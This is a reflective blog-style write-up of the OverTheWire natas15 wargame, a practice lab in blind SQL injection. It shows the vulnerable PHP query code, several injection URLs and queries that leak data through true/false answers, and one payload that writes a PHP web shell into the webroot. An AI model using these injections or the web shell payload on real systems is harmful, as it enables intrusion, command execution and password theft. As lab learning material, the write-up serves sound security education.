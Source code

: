 ```yaml
---
layout: post
title: natas15 writeup
date: 2017-02-31
---
```

## Overview / TL; DR 
* As said in the description, this is **NOT** a write-up, there are many online that get straight to the point (what is required to solve the challenge) which unfortunately this gist is not :books:
* I didn't solve the challenge mainly because I got ahead of myself and missed a crucial detail in one of the many approcahes I took, in a sense I dived too deep down a rabbit hole which closed me off from the real answer, while I was digging deeper for one that simply wasn't there 
* _natas15_ is a `Blind SQL Injection` challenge, which I did not have knowledge of before *(but I do now)*, in fact the only SQLi I knew of before this was the simple auto bypass method (basically `' OR 1=1; -- `), so I'm actually glad I did this challenge til the very end because I ended up learning a lot !

## Wtf is a "Blind" SQL Injection ? 
* It's basically an SQL Injection but under the circumstances where the results aren't returned directly to you
* More often than not you will only get responses along the lines of 
  - The query didn't return anything (which means False)
  - The query returned a row / multuple rows (which means True)
  - An error in your query (which also might return nothing)
* As you can imagine it makes things a lot harder for an attacker (but not imppossible), as they can only ask the database True/False questions

An example implementation in the *natas15* sourcecode:
{% highlight ruby %}
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    } 
{% endhighlight %}

:warning: In this case the *username* variable is exploitable as it isn't being sanitized properly

## What I did at the beginning
#### Although this approach was incorrect it taught me a lot about the UNION and INTO OUTFILE clauses and how they can be abused

One of my first ideas was that since the results weren't returned directly to the user, I could use UNION to link a new select statement which would ignore the old results and dump any new results into a temporary file to be read later. The many possible issues with this approach is :
* The user currently executing the query may not have write access _(It didn't)_
* The file has to be written to somewhere accessible by the user and within the webroot directory 
* The user has to have the privileges (in this case `FILE` privileges) to even use commands like `LOAD FILE` or `INTO OUTFILE`

Example URL:
```sql
http://natas15.natas.labs.overthewire.org/?username=" AND 1=2 UNION SELECT * INTO OUTFILE '/tmp/out' FROM users ; --
```
Server-side query :
```sql
SELECT * from users where username="" AND 1=2 UNION SELECT * INTO OUTFILE '/tmp/out' FROM users ; -- "
```

**Side Note**: A much more dangerous version of this injection would be something like
```sql
SELECT * from users where username="" AND 1=2 UNION SELECT '1','<?php system($_GET['cmd']) ?>' INTO OUTFILE '/whateverpath/directory/script.php'; -- 
```
which basically stores a PHP script containing a shell that you can then use to execute arbitrary commands on


I executed variations of this query mutliple times to no success, so I began to suspect that this user account had very limited privileges, unfortunately I was right 

## Using the built-in functions
#### mySQL has very handy functions like user() that returns who the current user is, version() that returns the running version , etc ...
#### I also found out that SQL supports the LIKE clause, which is perfect for avoiding true equality "=" 

Starting off with a simple query like this :
SELECT * from users where username="" OR user() LIKE "%"
*  % when used alone matches everything so when saying user() LIKE "%" its basically saying user() matches ANYTHING, which is true as long as the thing that user() returns is not NULL
*  % when used with other characters will also match up to a certain pattern such as "%a" matching everything that ends with "a" and "a%" matching everything starting with "a"
* The **_** character functions similarly to "." in regex. It matches any character, so as you can see in the gif below, it can be used to guess the length of a certain field, while combined with the % character can also be used to match patterns

![Underscore](https://thumbs.gfycat.com/ThirdBigAddax-size_restricted.gif)

(After guessing the value of a certain field the `LIKE` can be replace with `=` to ensure the correct value, since the query would evaluate to False otherwise)

![Guess](https://thumbs.gfycat.com/TotalAlertFlyingfox-size_restricted.gif)

* Using trial-and-error method or even a brute-force method its a slow but surefire method of leaking useful data from the database such as 
  - The current user (as shown above)
  - What privileges this user had (USAGE = no privileges besides logging in and SELECT'ing)
    ![Usage](https://thumbs.gfycat.com/ShamelessEquatorialKoala-size_restricted.gif)
  - The version of mySQL running
  
     URL: 
     ```sql
     http://natas15.natas.labs.overthewire.org/?username=" OR @@version LIKE "5.5.55-0%2Bdeb8u1& debug (%2B = +)
     ```
     Query: 
     ```sql
     SELECT * from users where username="" OR @@version LIKE "5.5.55-0+deb8u1"
     ```
     
  - The dummy user accounts being used
    ![pw](https://i.imgur.com/NDmQ4Lz.jpg)
  
  
## I was stupid

This is where I screwed up, I had already acquired a method to leak usernames and passwords from the *__users__* table, but somehow it never occured to me to look for a user called *__natas16__*, instead my smart-ass brain kept pestering me to find a way to execute arbitrary commands so I could cat the password file:`/etc/natas_webpass/natas16` :confused:

Although I did most of this brute-forcing stuff by hand (since it was fairly short) a proper script is recommended for brute-forcing the password since it is 32 characters long and there are `26 lowercase letters + 26 uppercase + 10 digits = 62` possible characters for each of the 32 character slots, which is `62 ^ 32` possible combinations
